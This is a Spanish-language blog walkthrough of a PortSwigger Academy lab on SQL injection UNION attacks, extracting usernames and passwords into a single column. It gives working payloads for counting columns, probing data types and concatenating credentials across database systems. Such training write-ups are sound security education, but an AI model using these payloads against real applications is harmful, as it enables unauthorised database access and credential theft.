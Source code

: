 +++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 6"
date = "2021-11-04"
description = "Lab: SQL injection UNION attack, retrieving multiple values in a single column"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection UNION attack, retrieving multiple values in a single column

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer los datos de una tabla, las columnas son `username` y `password` de la tabla `users`. Es igual al anterior lab solamente que esta vez se tiene que extraer los datos en una sola columna haciendo uso de una consulta sql. La forma que tiene SQL para poder extraer datos de esa manera es de la siguiente:

   DBMS | Concatenacion
--------|------
  Oracle | 'foo'\|\|'bar'
  Microsoft | 'foo'+'bar'
  Postgresql | 'foo'\|\|'bar'
  MySQL | 'foo' 'bar'

## Reconocimiento

Ahora toca usar el metodo union para poder recuperar esos datos y tratar de inyectar ese comando en la consulta primaria para recuperar los usuarios y contrasenas de la tala de usuarios.

### Payloads

Estos pasos se repetiran los mismos del laboratorio anterior Lab5.

#### Recuperar columnas

Recuperamos las columnas inyectando la siguiente consulta:

```
https://xxxxxxxxxxxx.web-security-academy.net/filter?category=Pets' order by 1--
https://xxxxxxxxxxxx.web-security-academy.net/filter?category=Pets' order by 2--
https://xxxxxxxxxxxx.web-security-academy.net/filter?category=Pets' order by 3--
```
Al ver que en 2 muestra bien y en 3 da un error interno, sabemos que cuenta con 2 columnas.

#### Recuperar tipo de datos

Ahora queremos saber que tipos de datos acceptan, inyectando algunas string en los dos vemos que no hay problema al hacerlo.

```sql
Pets' union select 'test','test'--
Pets' union select 'test',null--
Pets' union select null,'test'--
```
Ahora sabemos que solo podemos inyectar texto en el una columna que seria la segunda.

#### Recuperar datos de usuarios

Ahra ya podemos tomar los datos de la tabla de usuarios que se nos pide, para eso inyectaremos las siguientes consultas:

```sql
Pets' union select null,username from users--
Pets' union select null,password from users--
```
![Contrasenas de la tabla users](extraido.png)

Pero haciendo dos consultas es muy complicado recuperar todos estos datos y luego unirlos y saber que valor es de cada uno. Para eso podemos usar la concatenacion que es propia del sistema, solo es de saber que sistema se esta usando en el backend realizando pruebas, probaremos con todos y ver si nos arroja un resultado. La consultaria quedaria asi:

```sql
Pets' union select null,username password from users--
Pets' union select null,username||password from users--
Pets' union select null,username+password from users--
```
Ahora con alguno de los payloads ingresados pudimos recuperar los datos en una misma columna como se puede ver y ya contamos con el usuario y las credenciales, ya solo queda ingresar al sistema y resuelto.

![Laboratorio resuelto](resuelto.png)

Algo para finalizar que se podria hacer es agregar un guion para saber cuando termina una columna de la otra, esto se arregla agregando cualquier caracter en el medio, por ejemplo un `-`:

```sql
Pets' union select null,username||'-'||password from users--
```

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)